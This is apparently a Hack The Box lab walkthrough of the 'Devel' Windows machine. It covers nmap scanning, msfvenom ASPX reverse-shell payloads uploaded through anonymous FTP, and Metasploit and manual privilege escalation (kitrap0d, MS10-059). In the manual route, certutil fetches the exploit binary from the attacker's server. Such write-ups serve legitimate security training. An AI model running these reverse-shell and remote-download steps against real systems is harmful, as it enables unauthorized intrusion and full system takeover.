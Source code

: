 ```yaml
---
title: Devel Hack The Box Walkthrough
published: 2023-07-17
description: ''
image: ''
tags: ['htb','easy']
category: 'Walkthroughs'
draft: false 
---
```


Scan Using nmap

```bash
nmap -sV -sC -oA nmap/scan 10.10.10.5  
```

```
┌──(kali㉿kali)-[~/Documents/HTB/devel]
└─$ nmap -sV -sC -oA nmap/scan 10.10.10.5  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 15:11 EDT
Nmap scan report for 10.10.10.5
Host is up (0.20s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.39 seconds

```

We have a web page and a ftp server

![](./1.png)

It seems both the webserver and the ftp is liked. So let's upload a file in ftp and run it through port 80 it is running 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.21 LPORT=4444 -f aspx > exploit.aspx
```

![](./2.png)

set up the metasploit reverse listener

![alt text](<Pasted image 20230716011237.png>)

Now run the exploit by going to the /exploit.aspx

![alt text](<Pasted image 20230716011312.png>)

alt textrun local_exploit_suggester

```
run post/multi/recon/local_exploit_suggester
```

![alt text](<Pasted image 20230716022320.png>)

![alt text](<Pasted image 20230716022509.png>)

let's use a the 2 exploit

Background your meterpreter shell

```
background
```

```
meterpreter > background
[*] Backgrounding session 4...
```

use the exploit

```
use exploit/windows/local/ms10_015_kitrap0d
```

set lhost, session, lport and run the shell

![alt text](<Pasted image 20230716023643.png>)

Manual Exploit

create a reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx > exploit.aspx
```


Run the exploit and get a net cat reverse shell

![alt text](<Pasted image 20230717091637.png>)


MS10-059 Exploit - [Github](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri)
download the exe and upload it to the server via certutil and python http server

![alt text](<Pasted image 20230717093449.png>)

```powershell
certutil -urlcache -f http://10.10.14.7/MS10-059.exe exploit.exe
```

![alt text](<Pasted image 20230717095101.png>)

Now run the exploit and listen for the incoming root shell

```powershell
exploit.exe 10.10.14.7 1337
```

![alt text](<Pasted image 20230717095705.png>)

![alt text](<Pasted image 20230717095734.png>)